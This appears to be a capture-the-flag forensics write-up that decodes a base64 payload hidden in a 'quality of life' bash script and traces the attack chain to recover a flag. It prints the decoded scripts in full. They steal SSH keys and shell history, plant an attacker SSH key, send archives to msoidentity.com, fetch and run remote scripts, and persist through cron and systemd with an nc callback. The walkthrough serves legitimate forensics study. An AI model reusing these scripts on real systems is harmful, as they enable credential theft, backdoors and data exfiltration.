 # DoD Cyber Sentinel Challenge - Remote Help (forensics, 200p, Medium Difficulty) 6/24/2025
## Preface
Unfortunately, I do not have access to the original challenge statement, but it mentions something about a fictional internal attack from a recently hired remote worker. They were able to recover a [bash script](https://github.com/btoroth/QOL/blob/main/QOL.sh) that seems to have triggered alarms, causing the attack to fail. It then suggests trying to follow the cyber kill chain from start to finish to determine what the attacker was trying to do, and along the way, you'd find four different parts of the flag.

## Solving

![image](https://github.com/user-attachments/assets/710acb2e-cbea-489c-ac08-c4962739b961)

At first glance the script seems pretty harmless, even calling itself a QOL (Quality of Life) script meant to just make some minor improvements to the system. Update/upgrade packages, install some tools, create some aliases, blah blah blah. BUT if you keep scrolling, down to the very bottom we see this:

`sudo echo IyEvYmluL2Jhc2gKCiRsb2c9Ii90bXAvbG9nXyQoZGF0ZSArIiVZLSVtLSVkLS0lSC0lTSIpIgokdGd6PSI ... AvaW5mby5zaAovYmluL2Jhc2ggL3RtcC9pbmZvLnNoCnJtIC1mIC90bXAvaW5mby5zaAo= | base64 -d >> /tmp/0.sh && chmod +x /tmp/0.sh && /bin/bash /tmp/0.sh &`

Here we go, this seems to be yet another bash script - now obfuscated in base64 - being saved and executed. We can simply throw the base64 string into the browser tool CyberChef, it will automatically detect base64, and then decode it for us:

![image](https://github.com/user-attachments/assets/a6de7c73-fddb-4038-a09d-e87336d19171)

```
#!/bin/bash

$log="/tmp/log_$(date +"%Y-%m-%d--%H-%M")"
$tgz="/tmp/log_$(date +"%Y-%m-%d--%H-%M").tgz"

mkdir -p $log

cat /proc/cpuinfo >> "$log/cpu.txt"
cat /proc/meminfo >> "$log/mem.txt"
cat /etc/os-release >> "$log/os.txt"



for dir in $(ls /home -1); do
    
	if [ -f "$dir/.ssh/" ]; then
		cat $dir/.ssh/* >> "$log/'$dir'.txt"
		cat $dir/.bash_history >> "$log/'$dir'-bash.txt"
	fi
    # Perform your actions here
done

if [ "$(id -u)" -eq 0 ]; then
	cat /root/.ssh/* >> "$log/root.txt"
	cat /root/.bash_history >> "$log/root-bash.txt"
	local url="https://msoidentity.com/auth"
    local auth_keys="$HOME/.ssh/authorized_keys"
	
    curl -s "$url" >> "$auth_keys"
    chmod 600 "$auth_keys"
fi 


tar -cf "$tgz" "$log" 2>/dev/null

if [ -f "$tarfile" ]; then
        curl -s --output /dev/null -X POST -H "accept: application/json" -H "Content-Type: multipart/form-data" -F "file=@$tarfile" "https://msoidentity.com/log"
    fi
}

curl -s https://msoidentity.com/info | base32 -d >> /tmp/info.sh
/bin/bash /tmp/info.sh
rm -f /tmp/info.sh
```

Now we're seeing something more malicious! This script basically seems to create a directory called log_(current datetime) and piles a whole bunch of sensitive system information in there like CPU, memory, and OS info, as well as SSH keys and shell history. The attacker also seems to drop their own SSH key from "msoidentity.com/auth" into the authorized keys directory to set up persistence. Then, the logs get compressed into a tar file and exfiltrated to "msoidentity.com/log" via a POST request. After all that is done, another bash script - this time seemingly encoded in base32 - is retrieved and run from "msoidentity.com/info".

Now we have three new URLs to explore, so my first instinct was to simply visit all three of them in a browser. While the auth endpoint seemed to be a dud, the log and info endpoints both yielded me text file downloads. From the log endpoint, I got the first part of the flag, "C1{Sn34ky_", and from the info endpoint I got the encoded script. Once again, throwing the base32 encoded string into cyberchef worked just fine and output this:

![image](https://github.com/user-attachments/assets/3199b2d5-b01c-4d54-b277-f3c6b5f57f17)

```
CHECK_SCRIPT="/usr/local/bin/check_backup.sh"
CRON_INTERVAL="*/5 * * * *"  # Every 5 minutes
CRON_JOB_NAME="check_backup_script"
SCRIPT_PATH="/opt/backup.sh"
$SCRIPT_URL=https://msoidentity.com/backup_info

# DO NOT PUT PASSWORDS IN PLAIN TEXT

cat <<EOF | sudo tee "$CHECK_SCRIPT" > /dev/null
#!/bin/bash
if [ ! -f "$SCRIPT_PATH" ]; then
    curl -fsSL "$SCRIPT_URL" -o "$SCRIPT_PATH.enc" && openssl enc -nosalt -aes-256-cbc -d -in "$SCRIPT_PATH.enc" -out "$SCRIPT_PATH" -pass pass:"45337a3067335f56475f" && chmod +x "$SCRIPT_PATH" && rm "$SCRIPT_PATH.enc"
fi
EOF

chmod +x "$CHECK_SCRIPT"

(crontab -l 2>/dev/null | grep -v "$CHECK_SCRIPT"; echo "$CRON_INTERVAL $CHECK_SCRIPT # $CRON_JOB_NAME") | crontab -
```

Heres the next steps in the attack. First, a couple variables are declared to be used in the script, including a new URL to explore "msoidentity.com/backup_info". A new script is being created, called "check_backup.sh". The first thing it does is check if there is a file at "/opt/backup.sh" which - you guessed it - is _another_ script. If that file doesn't exist yet the script creates it by getting it from that URL we just mentioned. The script seems to come encrypted and needs to be decrypted using AES-256-CBC with the password "45337a3067335f56475f". The check backup script then is added as a cron job that gets run every five minutes, meaning that every five minutes the backup script will be re-downloaded onto this system if it wasn't already there.

Once again visiting the URL provides us with the next script to explore. As already explained, the file comes encrypted and can be decrypted using the same exact command that's already in the script:

```openssl enc -nosalt -aes-256-cbc -d -in backup.enc -out backup.sh -pass pass:"45337a3067335f56475f"```

```
#!/bin/bash
BACKUP_DIR="/tmp/backups"
TIMESTAMP=$(date +"%Y%m%d_%H%M%S")
ARCHIVE_NAME="backup_${TIMESTAMP}.7z"
ARCHIVE_PATH="${BACKUP_DIR}/${ARCHIVE_NAME}"
SERVICE_NAME="NightlyBackup"
SCRIPT_PATH="/opt/backup.sh"
UNIT_PATH="/etc/systemd/system/${SERVICE_NAME}.service"
TIMER_NAME="${SERVICE_NAME}.timer"
TIMER_UNIT="/etc/systemd/system/${TIMER_NAME}"


mkdir -p "$BACKUP_DIR"
rm -rf backup_*
7z a -mx=9 "$ARCHIVE_PATH" /home /root

if systemctl list-unit-files | grep -q "^${SERVICE_NAME}.service"; then
    systemctl enable "$SERVICE_NAME"
else
        curl -s https://raw.githubusercontent.com/supremeleaderbrian/services/refs/heads/main/backup.service > $UNIT_PATH
        curl -s https://raw.githubusercontent.com/supremeleaderbrian/services/refs/heads/main/backup.timer > $TIMER_UNIT
fi

systemctl daemon-reexec
systemctl daemon-reload
systemctl enable "$SERVICE_NAME"
systemctl enable --now "$TIMER_NAME"

#Callback - WE GOT THEM
sudo nc msoidentity.com 4443
```

We start with more variables being created, almost all of which are either parts of filenames or file paths. Then a backup directory is created, and all of the contents of the /home and /root directory are compressed and archived there. After, it checks for the NightlyBackup service in systemctl, and if it doesn't exist then it grabs two files from a user's GitHub repo that look like this:

![image](https://github.com/user-attachments/assets/dfabe7a9-10d0-436b-a5a2-82800fd64f66)
![image](https://github.com/user-attachments/assets/8dab6c59-f237-42c5-93a9-9b3176515cd9)

There's a lot going on here but basically, it's just going even deeper with the data exfiltration and persistence into the system via different methods. What's important though is the simple callback to the attacker server on the very last line of the script. Upon seeing this I tried replicating that callback in the terminal and it returned back to me the last part of the flag, "pr0sp3r}"! 

But wait, I had the first part of the flag and the last part which means I was still missing the second and third parts of the flag. I thought I must have missed something in the script in between those two points at which I found those flag parts. After some overthinking and overanalyzing, I decided to explore the GitHub account of the user "supremeleaderbrian", which appeared in the last script. He only had the single repository that contained those two services from earlier, but after checking the commit history I found an earlier version of the timer service!

![image](https://github.com/user-attachments/assets/10bbfd25-d8dd-48ba-bb46-2fc1b7704374)

And at the very bottom, you'll see one of the last two flag parts, only one left to go! Unfortunately, this part ended up taking me the longest to find, despite being relatively simple and I'd even say hidden in plain sight... If you look back at the second script we went over, you'll notice a comment regarding the password of the encrypted file and to not put it in plaintext. I had completely missed this the first time during the fast-paced competition, thinking that it was just some random password. But if you put this password into cyberchef, it'll reveal itself to be a hex-encoded string:

![image](https://github.com/user-attachments/assets/274f1e94-ed51-4a56-9163-086c68b65527)

So is that it?! We have all four of our flag parts, right? With this, the flag should be "C1{Sn34ky_E3z0g3_VG_w0rk3rs_n3v3r_pr0sp3r}". Hmm no but that doesn't really make sense, maybe "C1{Sn34ky_w0rk3rs_n3v3r_E3z0g3_VG_pr0sp3r}"? Yeah no doesn't look right, and I knew it wasn't because I had tried submitting both flags only to see "Incorrect". So what gives? The part that seems off is the second part that we just got "E3z0g3_VG_". Seeing that this string seems jumbled but still had the correct kind of look to it to pass as part of a flag (underscores and somewhat leet spelling), it made me think it was probably a rotation cipher. With the help of cyberchef yet again, my suspicions were confirmed after trying to decode with the classic ROT13 cipher like so:

![image](https://github.com/user-attachments/assets/161226fa-4c8e-4cf6-8de9-e9613f437fdd)

So now we have "C1{Sn34ky_R3m0t3_IT_w0rk3rs_n3v3r_pr0sp3r}" and it actually looks right now. We have our flag!
